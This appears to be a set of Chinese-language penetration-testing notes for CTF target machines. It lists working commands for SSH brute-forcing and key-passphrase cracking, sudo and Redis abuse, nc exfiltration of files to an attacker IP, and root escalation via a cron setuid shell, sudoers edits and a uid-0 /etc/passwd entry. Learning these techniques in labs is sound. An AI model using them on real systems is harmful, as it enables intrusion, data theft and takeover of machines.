靶机常见思路

## **windows传文件**
通过scp传fscan
```
scp -P 28308 fscan32 ctfshow@pwn.challenge.ctf.show:/tmp
-P 端口
```

## **nmap**
nmap -sC -A -T 4 -n -p- 10.10.10.171
nmap参数：
-sC    根据端口识别的服务，调用默认脚本
-A     OS识别,版本探测，脚本扫描和traceroute
-T（0-5）时间优化
-n/-R   不对IP进行域名反向解析/为所有的IP都进行域名的反响解析
-p- 扫描所有端口
## **searchsploit**
searchsploit 是一个命令行搜索 exp 的工具，可以直接在 kali 终端中搜 exp，使用空格来区分关键词
例如：searchsploit opennetadmin
加上 -m 可以把 exp 复制到当前目录
netstat
netstat 各个参数解释
-a (all)显示所有选项，默认不显示LISTEN相关
-t (tcp)仅显示tcp相关选项
-u (udp)仅显示udp相关选项
-n 拒绝显示别名，能显示数字的全部转化成数字
-l 仅列出有在 Listen (监听) 的服務状态
-p 显示建立相关链接的程序名
-r 显示路由信息，路由表
-e 显示扩展信息，例如uid等
-s 按各个协议进行统计
-c 每隔一个固定时间，执行该netstat命令
## **ssh相关**
**john爆破密钥密码**
用户将自己的公钥存储在远程主机上面，登陆的时候远程主机会向用户发送一段随机字符串，用户用私钥加密之后再将加密后的发送给主机，如果主机能够用公钥解密成功则可以连接
如果能查看密钥的话可以保存下来，然后用密钥去连接，如果密钥有密码的话，可以使用 ssh2john.py 先转换成 john 格式
python /usr/share/john/ssh2john.py mi > sshjohn
然后使用 john 爆破一下
john --wordlist=/usr/share/wordlists/rockyou.txt sshjohn   使用 john 爆破 --wordlist 指定字典
john 工具对于同一个 shadow 文件只会进行一次爆破，如果第二次执行 john shadow 是不会得到结果的
如果想查看上一次爆破的结果，可以加上个 --show
**hydra爆破ssh**
hydra -l jim -w 10 -P 1.txt -t 10 -v -f 192.168.149.160 ssh
-l jim              指定爆破账号为 jim
-L user.txt       指定用户名字典为 user.txt
-w 10             设置最大超时时间10s，默认30s
-P pwd.txt      指定密码字典为 pwd.txt
-t 10               指定爆破线程为 10 个
-v                   指定显示爆破过程
-f                    查找到第一个可以使用的账号和密码的时候停止破解
**authorized_keys**
authorized_keys，里面实际放的就是客户机的公钥，只要公钥在这里面，这个客户机就不用使用密码就能登录
一开始 ubuntu 中没有这个文件
wsl 用 ssh 登录是需要密码的
如果我把 wsl 的公钥拷出来，放到 ubuntu 用户 yichen 的 .ssh 下 authorized_keys 中，那么将不再需要密码
那么，如果有权限，可以把自己生成的公钥拷到用户的 authorized_keys 中，那么就可以直接 ssh 登录到这个用户
（那个靶机是允许执行另一个用户的 cp 命令，然后拷贝公钥到 .ssh/authorized_keys，再登录。但感觉实际用不到，会有这么用的？也许吧😄）
## **sudo -l**
sudo -l 可以列出当前用户可以执行哪一些指令，如果有 NOPASSWD 的，就是不需要密码就能使用 sudo 的
例如，php 是不用密码就能使用 sudo 的，那么可以写一个 php 脚本 <?php system('/bin/sh'); ?>，然后一执行就能拿到 root 权限
还有很多软件可以具体找一下他们怎么能开一个 shell，sudo 打开就是 root
## **redis未授权访问**
关于 redis 核心利用点是，通过没有身份校验的 redis 服务进行登陆，同时指定 config dir 和 config dbfilename 的路径与名称，达到把本地公钥存储到远程服务器上，这时候在通过 ssh 进行远程登陆。可以获得名为 redis 的 shell
有个利用脚本
<https://github.com/Avinash-acid/Redis-Server-Exploit>
## **python交互式终端**
一般打开的 shell，只有一个 $ 符号，通过这个能好看一下
python -c "import pty;pty.spawn('/bin/bash')"
## **从靶机上拷出东西来**
(如果有 web 服务的话，直接拷到 web 目录，然后下载应该也可以吧)
攻击机新开一个终端，nc -lvp 10001 >backup-ssh-identity-files.tgz 用来接收那个压缩包文件
靶机 shell 里面使用 nc 10.10.15.84 10001 < backup-ssh-identity-files.tgz
## **rbash逃逸**
rbash 会限制一些命令没法用，参考：https://xz.aliyun.com/t/7642
## **whatweb**
一个命令行下识别 cms 的工具
## **docker相关**
挂载目录：加参数 -v /root/:/root/
在这个靶机中拿到用户权限之后可以对 docker 进行操作，而 docker 进去是 root 权限的，docker 挂载上靶机的 root 目录之后就可以 root 权限对 /root 目录进行操作了
当你能root权限写文件
## **写linux计划任务**
cron 的默认配置文件是 /etc/cronted，#开头的是注释，不会被处理
然后上面的内容是来设置 cron 的运行环境的
* 表示任意的数，即每分钟、每小时、每天...
如果有编辑文件的软件（比如 teehee）是 root 权限运行的话可以写 * * * * * root chmod 4777 /bin/sh 进去，等个一分钟就能获得一个 root 权限的 shell
## **写/etc/sudoers**
这个东西的作用是当用户执行 sudo 的时候，会先到这里面去找，如果发现用户有 sudo 的权限就能直接以 root 的权限来执行命令
文件内容公式：授权用户/组 主机=[(切换到哪些用户或组)] [是否需要输入密码验证] 命令1,命令2...
那么可以往里写 yichen ALL=(ALL:ALL) ALL 这样 yichen 就能通过 sudo 来执行 root 权限
又或者 peter 可以不使用密码用 sudo 执行任何命令 peter ALL=(ALL) NOPASSWD: ALL
## **写/etc/passwd**
首先要生成 hash
openssl passwd -1 -salt yichen 123456
用户名：yichen，密码：123456
echo 'yichen:$1$yichen$6nzFZVX5T21iu2AmBgzin/:0:0:yichen:/root:/bin/bash' >> /etc/passwd
然后 su yichen，输入密码：123456 就拿到 root 权限了
## **重要/敏感文件**
**nginx**
配置文件存放目录：/etc/nginx
主配置文件：/etc/nginx/conf/nginx.conf 或 /etc/nginx/nginx.conf
管理脚本：/usr/lib64/systemd/system/nginx.service
模块：/usr/lisb64/nginx/modules
应用程序：/usr/sbin/nginx
程序默认存放位置：/usr/share/nginx/html
日志默认存放位置：/var/log/nginx
